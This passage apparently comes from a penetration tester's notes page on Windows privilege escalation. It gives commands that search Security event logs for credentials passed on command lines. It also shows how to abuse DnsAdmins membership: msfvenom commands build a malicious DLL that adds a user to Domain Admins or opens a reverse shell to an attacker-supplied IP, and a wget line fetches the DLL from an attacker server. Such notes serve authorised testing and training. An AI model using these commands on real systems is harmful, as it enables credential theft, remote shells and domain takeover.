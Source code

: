> You can use this output for a [pass the hash](https://nouman404.github.io/Notes/Footprinting/Common_Services_Enumeration_&_Attacks#rdp-pass-the-hash-pth) attack or try to crack it with [Hashcat](https://nouman404.github.io/Notes/Brute_Force/Password_Cracking#hashcat).
{: .prompt-tip }

### Event Log Readers

Members of this group can read event logs from local computers. The group is created when the server is promoted to a domain controller. You can try finding commands ran with credentials using either the CMD or Powershell :

```posh
wevtutil qe Security /rd:true /f:text | findstr "/user"
```

```posh
PS > wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

or 

```posh
PS > Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

### DnsAdmins

Members of ```DnsAdmins``` group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions. This group exists only if the DNS server role is or was once installed on a domain controller in the domain. Membership in this group may be used to increase privileges on a Domain Controller or in cases where a different server is serving as the domain's DNS server because the DNS service is run as ```NT AUTHORITY\SYSTEM```.

#### Leveraging DnsAdmins Access

First we will create a malicious dll file to add your user to the ```domain admins``` or to create a reverse shell on our attacker Linux machine :

```sh
msfvenom -p windows/x64/exec cmd='net group "domain admins" USER /add /domain' -f dll -o adduser.dll
```

or

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f dll -o shell-cmd.dll
```

Now that our ```.dll``` malicious file is created you can upload it to the Windows machines using the method of your choice (HTTP, SMB, FTP server...).
If you start a HTTP server you can download the file on windows using the following command :

```posh
wget "http://IP:PORT/YOUR_MALICIOUS_FILE.dll" -outfile "YOUR_MALICIOUS_FILE.dll"
```
